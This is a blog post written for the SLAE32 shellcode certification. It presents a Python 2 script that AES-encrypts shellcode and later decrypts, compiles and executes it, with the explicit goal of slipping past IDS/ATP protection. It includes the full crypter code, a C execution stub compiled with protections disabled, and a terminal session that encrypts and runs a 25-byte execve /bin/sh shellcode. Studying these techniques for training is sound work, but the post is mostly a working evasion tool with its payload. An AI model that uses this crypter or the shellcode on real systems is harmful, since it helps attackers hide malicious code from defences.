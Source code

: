 ```yaml
---
layout: single
title: AES Block Cipher script for Shellcodes
date: 2019-10-18
classes: wide
header:
  teaser: /assets/images/SLAE32/shellcoding32.png
tags:
  - Assembly
  - Pentester Academy
  - SLAE32
  - Shellcode
  - Certifications
--- 
```

![](/assets/images/SLAE32/shellcoding32.png)

## Introduction
I think the best way to obfuscate shellcodes to avoid IDS/ATP protection is the polyphormism method, but also encrypting the shellcode could be a valid alternative to bypass those control systems. There are a lot of cipher algorithms outside to choose for this purpose but we need considering some aspects in this case. First we need a strong algorithm to prevent bruteforce on key or frequency analysys attack on ciphered text, second we need our implementation easy to write, easy to use and fast on encrypting/decrypting operations.<br>
First of all we need to choose if we want to implement a stream or block cipher, let's look at some features:

| 1. |	Block Cipher Converts the plain text into cipher text by taking plain text’s block at a time. |	Stream Cipher Converts the plaint text into cipher text by taking 1 byte of plain text at a time.
| 2. |	The complexity of block cipher is simple. |	Stream cipher is more complex.
| 3. |	Block cipher uses confusion as well as diffusion. |	Stream cipher uses only confusion.

There are many other features to list but this isn't the scope of this post. If you want to deep learn informations on block and stream ciphers I suggest to read this [book](https://www.crcpress.com/Cryptography-Theory-and-Practice/Stinson-Paterson/p/book/9781138197015).<br>
We choosed a block cipher algorithm. Next decisiom to make is what block cipher algorithm? According to [Wikipedia](https://en.wikipedia.org/wiki/Block_cipher) there are a lot of block cipher but one in particular is adopted by the NIST, the Advanced Encryption Standard (AES), wich could encrypt plain text block with a maximum 256 byte key size.<br>

## Implementation
Sometimes ago i wrote a python script for my [Github Redteam toolbox](https://github.com/bolonobolo/toolbox/blob/master/criptography/block_cipher.py) that works with block ciphers (AES, DES and 3DES).
So we've only to make some small changes on this script to make it operational on encrypting/decrypting and executing shellcode.
The original script works with OFB variant of the AES algorithm that means that i've to use alway a different Initiator Vector (IV).
In this case we work with CBC mode so the IV could be a fixed 16 bytes string.
However the main change to make is to add a function that execute our shellcode once it is decrypted.
Taking note that this script works only with python2, here's the code.<br>
```python
#!/usr/bin/python

# AES Block Cipher script for shellcodes
# Author: @bolonobolo
# Date: 2019/10/18

from Crypto.Cipher import AES
from base64 import b64encode,b64decode
import random
import string
import os

def getMode():
	while True:
		print ("Welcome to AES Block Cipher script for shellcodes")
		print("Do you wish do (e)ncrypt, (d)ecrypt or e(x)ecute?")
		mode = raw_input().lower()
		if mode in "encrypt e decrypt d execute x".split():
			return mode
		else:
			print('Enter either "encrypt" or "e", "decrypt" or "d", "execute" or "x".')

def getMessage():
	print("Enter the text")
	return raw_input()

def getKey():
	print("Enter the key")
	return raw_input()

def getIV():
	# 16 byte iv
	iv = "0123456789abcdef"
	return iv


def genkey(length):
	key = []
	# in ascii one letter = 8 bit = 1 byte 
	# AES needs 128, 192, or 256 bits, i choosed 256 256/8 = 32
	for _ in range (0,length):
		key.append(random.SystemRandom().choice(
				string.ascii_uppercase + string.ascii_lowercase + string.digits
				)) 
	return ''.join(key)

def aes(cipher, key, iv):
	cipher = AES.new(key, AES.MODE_CBC, iv)
	return cipher

def padding(size, text):
	while len(text) % size != 0:
			text += " "
	return text	

def cipherAlgo(key, text, size, iv):
	cipher = aes("aes", key, iv)	
	text = padding(size, text)
	text = cipher.encrypt(text)
	msg = b64encode(text)
	return msg

def decipherAlgo(key, text, iv):
	cipher = aes("aes", key, iv)
	text = b64decode(text)	
	msg = cipher.decrypt(text)
	return msg

def executeAlgo(code):
	code = code.replace(" ", "") # eventualy clean code from blank spaces
	file = open("shellcode.c", "w")
	file.write('''
		#include<stdio.h>
		#include<string.h>

		unsigned char code[] = \"''' + code + '''";

		void main() {

			printf(\"Shellcode Length:  %d\\n\", strlen(code));

			int (*ret)() = (int(*)())code;

			ret();

		}'''
	)
	file.close()
	os.system("gcc -fno-stack-protector -z execstack -m32 shellcode.c -o shellcode 2>/dev/null")
	os.system("./shellcode")

def main():
	mode = getMode()
	text = getMessage()
	iv = getIV()
	if mode[0] == "e":
		key = genkey(32) # 256 bits of key
		size = 16 # block size has to be 16 bytes
		msg = cipherAlgo(key, text, size, iv)
		print("Encrypted shellcode: %s" % (msg))
		print("The key is: %s" % (key))
	elif mode[0] == "d":
		key = getKey()
		msg = decipherAlgo(key, text, iv)
		print("Decrypted shellcode: %s" % (msg))
	elif mode[0] == "x":
		key = getKey()
		msg = decipherAlgo(key, text, iv)
		print("Decrypted shellcode: %s" % (msg))
		executeAlgo(msg)	

if __name__ == '__main__':
	main()
```    

## Simple usage
Theentire workflow is very simple, first we need to extract the hexadecimal values of our shellcode with ```objdump``` command, next we launch the script choosing the ```encrypt``` option, paste our hex string, press enter and obtain the encrypted string and the key.
Now we can relauch the script but this time we'll choose the ```execute``` option that decrypt the encrypted shellcode, write a C executer, compile it and execute it.<br>
```bash
root@slae32-lab:# objdump -d ../6_polimorphism/execve|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-7 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
"\x99\xf7\xe2\x8d\x08\xbe\x2f\x2f\x73\x68\xbf\x2f\x62\x69\x6e\x51\x56\x57\x8d\x1c\x24\xb0\x0b\xcd\x80"
root@slae32-lab:# ./aes_executor.py 
Welcome to AES Block Cipher script for shellcodes
Do you wish do (e)ncrypt, (d)ecrypt or e(x)ecute?
e
Enter the text
\x99\xf7\xe2\x8d\x08\xbe\x2f\x2f\x73\x68\xbf\x2f\x62\x69\x6e\x51\x56\x57\x8d\x1c\x24\xb0\x0b\xcd\x80
Encrypted shellcode: 2QYEdFCoEH6s9iEa0+57BRONKsF4Ufr71I5mncYiKy2F0X2mupdgtFUKejUn5fUTMk303rxkePzjeDdOyzG1jyjNDn1CyWLYvugabvARSmb0q7PCIO4RA0l1/s/LuVWlvudmXFZrqa7d9VvXDH6QHQ==
The key is: PQZic8H9KiuMrAv2n0Y26cqWkH9CQiAv
root@slae32-lab:# ./aes_executor.py 
Welcome to AES Block Cipher script for shellcodes
Do you wish do (e)ncrypt, (d)ecrypt or e(x)ecute?
x
Enter the text
2QYEdFCoEH6s9iEa0+57BRONKsF4Ufr71I5mncYiKy2F0X2mupdgtFUKejUn5fUTMk303rxkePzjeDdOyzG1jyjNDn1CyWLYvugabvARSmb0q7PCIO4RA0l1/s/LuVWlvudmXFZrqa7d9VvXDH6QHQ==
Enter the key
PQZic8H9KiuMrAv2n0Y26cqWkH9CQiAv
Decrypted shellcode: \x99\xf7\xe2\x8d\x08\xbe\x2f\x2f\x73\x68\xbf\x2f\x62\x69\x6e\x51\x56\x57\x8d\x1c\x24\xb0\x0b\xcd\x80            
Shellcode Length:  25
# exit
root@slae32-lab:# ls
aes_executor.py  shellcode  shellcode.c
```
For our test we choose the last 25 bytes execve /bin/sh shellcode.<br>
![](/assets/images/SLAE32/assignment_7/crypter_0.gif)<br>
Nice!<br>
<br>
All the codes used in this post are available in my dedicated [github repo](https://github.com/bolonobolo/SLAE32_code).<br>
<br>
This blog post has been created for completing the requirements <br>
of the SecurityTube Linux Assembly Expert certification: [SLAE32 Course](http://securitytube-­training.com/online­‐courses/securitytube­‐linux­‐assembly­‐expert/)<br>
Student ID: SLAE-1476

